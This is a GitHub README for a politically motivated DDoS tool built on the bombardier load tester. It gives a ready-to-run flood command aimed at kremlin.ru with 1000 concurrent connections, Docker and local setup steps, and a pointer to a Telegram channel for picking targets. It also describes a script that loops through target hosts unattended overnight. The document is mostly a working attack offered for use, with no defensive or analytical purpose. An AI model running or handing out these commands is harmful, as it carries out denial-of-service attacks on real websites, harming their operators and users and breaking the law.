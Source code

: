 # fuckputin

🇺🇦 A DDoS helper tool to bring down enemy websites - based on [bombardier](https://github.com/codesenberg/bombardier) 🇺🇦

### [Інструкція українською](./README_UA.md)
### [Инструкция на русском](./README_RU.md)

### Simplified instruction - manual execution
- Install Docker - [Instructions](https://docs.docker.com/get-docker/)
- `docker run -it alpine/bombardier -c 1000 -d 60s -l https://kremlin.ru`
- Last part of the comand is host url, you should pick one [from the last chat messages](https://t.me/itarmyofukraine2022)  

Automatic script performs the same command and loops through a list of hosts, so you can leave it unsupervised overnight or for long periods of time. It also automatically fetches updates to the list.

### Get the code
- Clone the repo - `git clone https://github.com/v1adko/fuckputin.git`   
  or  
[download a zip](https://github.com/v1adko/fuckputin/archive/refs/heads/master.zip) if git clone is taking too long
- Change working directory - `cd ./fuckputin`
- Optionally update [the targets](#targets)

### Targets

Best update targets from [this telegram channel](https://t.me/itarmyofukraine2022)  
Edit contents of the [./fucklist.sh](/fucklist.sh) file

### Run in Docker

*Note*: this could take quite some time, if you're tech-savvy enough,  
try [installing binaries manually](#local) directly on your host system,  
it should be faster

- Install Docker - [Instructions](https://docs.docker.com/get-docker/)
- Optionally update [the targets](#targets)
- `docker-compose up --build` (on some systems compose is not installed with docker)
   **or**
- `docker build -t fuckputin .`
- `docker run fuckputin`

### Local

- Install Go - [Instructions](https://go.dev/doc/install)
- Install bombardier [by downloading a binary](https://github.com/codesenberg/bombardier/releases)
- Run `./fuckputin-local.sh`

### Run

Now leave the process running for as much as you can
Thank you for fighting on our side! 💪 🇺🇦
